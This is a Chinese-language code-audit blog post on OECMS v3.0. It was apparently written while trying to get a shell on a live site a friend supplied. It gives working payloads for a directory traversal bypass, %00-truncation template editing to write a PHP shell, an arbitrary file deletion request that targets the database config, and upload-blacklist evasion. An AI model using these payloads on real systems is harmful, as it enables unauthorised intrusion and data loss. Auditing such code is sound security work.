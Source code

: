 ```yaml
---
title: "Oecms v3 Audit"
date: 2019-04-15T13:06:38+08:00
draft: false
tags: ['audit']
categories: ['代码审计']
---
```


实战中碰到了这个cms，审计一波，记录一下

<!--more-->

@ershiyi发我一个网站，让我拿shell，看了下是oecmsv3.0的源码，并且二次开发过。有后台的账号和密码，关键在于怎么getshell，所以sql注入的点我没看。以下是审计结果。

## 后台登陆爆破

`http://go.go/admin/login.php`

![](https://y4er.com/img/uploads/20190509166907.jpg)

产生原因：

`oecms\data\include\imagecode.php`生成验证码后存入session

```php
while(($randval=rand()%100000)<10000);{
        $_SESSION["verifycode"] = $randval;
        //将四位整数验证码绘入图片 
        imagestring($im, 5, 10, 3, $randval, $black);
    }
```

`oecms\admin\login.php`进行验证码比对后并没有及时刷新session

```php
if($checkcode != $_SESSION["verifycode"]){
			$founderr	= true;
			$errmsg	   .= "验证码不正确.<br />";
		}
```

## 后台文件遍历

`E:\WWW\oecms\admin\oecms_template.php`

```php
function volist(){
	Core_Auth::checkauth("templatevolsit");
	global $dir,$tpl;
	if(!Core_Fun::ischar($dir)){
		$dir = "tpl";
	}

	if(substr($dir,0,3)!="tpl"){
		Core_Fun::halt("对不起，模板管理只允许读取“tpl”目录下的文件！","",1);
	}
.
.
.
	$tpl->assign("dirpath",$dirpath);
	$tpl->assign("dir",$dir);
	$tpl->assign("template",$template);
}
```

限制`$dir`的前三个字符是`tpl`，可以用`http://go.go/admin/oecms_template.php?dir=tpl/../`绕过

![](https://y4er.com/img/uploads/20190509167792.jpg)

## 编辑模板getshell

`E:\WWW\oecms\admin\oecms_template.php`

```php
/* 扩展名 */
	$allow_exts = "tpl|html|htm|js|css";
	$array_file = explode(".",$urlstrs);
	$array_count = count($array_file);
	$file_ext = $array_file[$array_count-1];
	if(!Core_Fun::foundinarr($allow_exts,strtolower($file_ext),"|")){
		Core_Fun::halt("对不起，只允许修改后缀为.tpl,.html,.htm,.js和.css的文件！","",1);
	}
```

限制文件名后缀，考虑到这个cms比较老，目标站点是php5.3的环境，可以用`%00`绕过

payload:`/admin/oecms_template.php?action=edit&urlstrs=tpl/..//case.php%00.tpl`

在这边需要注意的是保存的时候也需要进行`%00`截断，并且编辑的文件需要是存在的php文件，否则无法getshell

因为在153行

```php
/* 检测文件 */
	if(!is_writeable("../".$urlstrs)){
		Core_Fun::halt("对不起，该文件没有修改的权限！请设置tpl目录权限后再试！","",1);
	}else{
		$handle = fopen("../".$urlstrs,"wb");
		if(!$handle){
			Core_Fun::halt("对不起，不能打开该文件！","",1);
		}else{
			if(@fwrite($handle,$content)===FALSE){
				Core_Fun::halt("对不起，文件修改失败，请检查该文件是否使用中！","",1);
			}else{
				Core_Command::runlog("","编辑文件成功[".$urlstrs."]",1);
				Core_Fun::halt("模板文件修改成功","oecms_template.php?dir=".urlencode(substr($filepath,0,(strlen($filepath)-1)))."",0);
			}
		}
		fclose($handle);
```

首先检查了文件是否可用，如果是不存在的文件，则返回`对不起`

## 任意文件删除

payload

```php
GET /admin/upload.php?action=del&comeform=myform&picfolder=&inputid=uploadfiles&thumbinput=thumbfiles&channel=product&thumbflag=1&thumbwidth=0&thumbheight=0&waterflag=1&picname=2c6e34c9bfd7a0b71ba157f17cc9666b.jpg&picurl=source/conf/db.inc.php HTTP/1.1
Host: go.go
Upgrade-Insecure-Requests: 1
DNT: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://go.go/admin/upload.php?action=show&comeform=myform&inputid=uploadfiles&thumbflag=1&thumbinput=thumbfiles&channel=product&waterflag=1&picname=2c6e34c9bfd7a0b71ba157f17cc9666b.jpg&picurl=data/attachment/201108/27/2c6e34c9bfd7a0b71ba157f17cc9666b.jpg
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: set_options=set01; yc7gv1sgapp_admininfo=27a9gBgBf3Nb4JZymeKzxzYAdfCau0p%2BKLHiFMQlKfHjg2vmJsuI%2B%2FbtehcrXGXAGPmT%2F9Tq6C5VvUkF1NVu9Gqth2vIf9elrseicrYUkz9KTiA; PHPSESSID=ae2da05952aff79b9f9f86466915b033; 7ZnF6tLU_ADMINNAME=admin; 7ZnF6tLU_ADMINPASSWORD=21232f297a57a5a743894a0e4a801fc3
Connection: close


```

修改`picurl`参数删除任意文件，payload中是删除数据库配置文件，慎用。删除`config.inc.php`后会导致重装

`admin/upload.php`103行

```php
function del(){
	Core_Fun::deletefile("../".$GLOBALS['picurl']);
	echo("<script language='javascript'>window.location.href='upload.php?action=&".$GLOBALS['comeurl']."';</script>");
}
```

跟踪`deletefile()`函数

```php
	public static function deletefile($s_filename){
		if(!self::ischar($s_filename)){
			return;
		}
		@unlink($s_filename);
	}
```

没有判断文件路径，导致任意文件删除。

## 后台文件黑名单上传

`http://go.go/admin/annexform.php?comeform=myform&inputname=uploadfiles`

黑名单`asp|aspx|asax|asa|jsp|cer|cdx|asa|htr|php|php3|cgi|html|htm|shtml`

可根据具体环境截断或者用其他可解析后缀来上传shell，在这里不细说。

## 后话

最后目标站也没拿下来，编辑模板报500，nginx上传截断无果